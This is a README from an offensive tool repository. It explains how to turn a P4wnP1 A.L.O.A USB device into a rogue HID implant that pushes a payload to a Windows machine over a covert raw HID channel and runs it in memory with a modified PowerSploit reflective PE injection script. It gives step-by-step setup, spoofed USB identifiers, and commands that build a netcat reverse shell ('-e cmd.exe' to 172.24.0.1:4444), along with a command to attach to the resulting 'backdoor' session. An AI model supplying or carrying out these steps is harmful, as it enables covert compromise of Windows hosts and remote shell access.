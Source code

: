 # Reflective PE Injection using HID covert channel

### Description

Use a Covert RAW HID channel to deliver a payload to a windows machine and load it to memory using [powersploit "Invoke-ReflectivePEInjection"](https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/)

- The Invoke-ReflectivePEInjection.ps1 in this repository has been modified to work on Windows 10.

## Requirements

- Copy the "**Injection.sh**" script to `/usr/local/P4wnP1/scripts/`
- chmod `root@kali:/usr/local/P4wnP1/scripts# chmod 755 Injection.sh`
- Copy the "**Invoke-ReflectivePEInjection.ps1**" payload to `/usr/local/P4wnP1/legacy/`
- Copy the "**StageGenerator.py**" script to `/usr/local/P4wnP1/legacy/`
- Copy the "**Stage1.js**" to `/usr/local/P4wnP1/HIDScripts/`
- Generate Stage2 payload (netcat Reflective PE Injection) `root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /usr/share/windows-binaries/nc.exe "172.24.0.1 4444 -e cmd.exe"`

## Configuration

**Create a USB setting template with the following settings:**

- Keyboard
- Custom HID device
- Vendor ID: `0x1d6b`
- Product ID: `0x1315`
- Manufacturer Name: `MaMe82`
- Product Name: `P4wnP1 by MaMe82`
- Serial Number: `deadbeef1337`

_If you want to use other VID/PID you will need to update the values in Stage1.js and Stage2.ps1_

**Store the template under the name "Injection"**

**Create a trigger action** that starts the bash script "Injection.sh" when USB gadget connected to host, **Store the template under the name "Injection"**

**Create a master template** with the following settings:

- TriggerActions Template: `Injection`
- USB Template: `Injection`
- WiFi Template: `startup`
- Bluetooth Template: `startup`
- Networks templates: `bteth_startup, usbeth_startup, wlan0_startup_dhcp_server`

## Execution

- Connect to the P4wnP1 A.L.O.A web interface (using the access point ip "172.24.0.1") and deploy the master template "**Injection**"
- SSH into your P4wnP1 A.L.O.A access point ip "172.24.0.1" and run the following command: `root@kali:~# screen -d -r backdoor`

## StageGenerator.py

You can use **StageGenerator.py** generate a Reflective PE Injection payload using any executable file and deliver it using the P4wnP1 raw HID covert channel.

Just make sure the **Invoke-ReflectivePEInjection.ps1** file is in the same directory as **StageGenerator.py**

### Usage:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py "PE_EXECUTABLE_FILE_PATH" "EXECUTABLE_FILE_ARGUMENTS"`

Example With Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /tmp/netcat.exe "172.24.0.1 4444 -e cmd.exe"`

Example Without Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /tmp/netcat.exe ""`
